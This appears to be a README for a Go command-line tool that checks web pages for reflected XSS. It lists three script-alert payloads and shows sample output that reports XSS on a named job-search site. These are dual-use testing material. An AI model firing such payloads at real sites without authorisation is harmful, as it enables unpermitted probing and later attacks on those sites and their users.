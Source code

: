 ##  Check For Xss 

### Payload
1.  you can add payload in xss/payload.txt
	
	"><script>alert("A");</script>
	"><script>alert("B");</script>
	\"><script>alert("C");</script>


### How to use

 	$ go run main.go  -enum=xss -url='https://webku.id/lowongan/browse?keywords=aaaaa'
	[+] Checking For Xss ..
	[+] Open Payload from file ..
	[+] Parsing Query:  webku.id ..
	[+] XSS Found at :  https://webku.id/lowongan/browse?keywords=%22%3E%3Cscript%3Ealert%28%22A%22%29%3B%3C%2Fscript%3E
	[+] XSS Found at :  https://webku.id/lowongan/browse?keywords=%22%3E%3Cscript%3Ealert%28%22B%22%29%3B%3C%2Fscript%3E
	[+] XSS Found at :  https://webku.id/lowongan/browse?keywords=%5C%22%3E%3Cscript%3Ealert%28%22C%22%29%3B%3C%2Fscript%3E
	[+] Finished !!!

 	
--enum= this type 
--url= url will check
	
&copy; [Rahmat Wahyu Hadi](https://github.com/wahyuhadi/) - 2019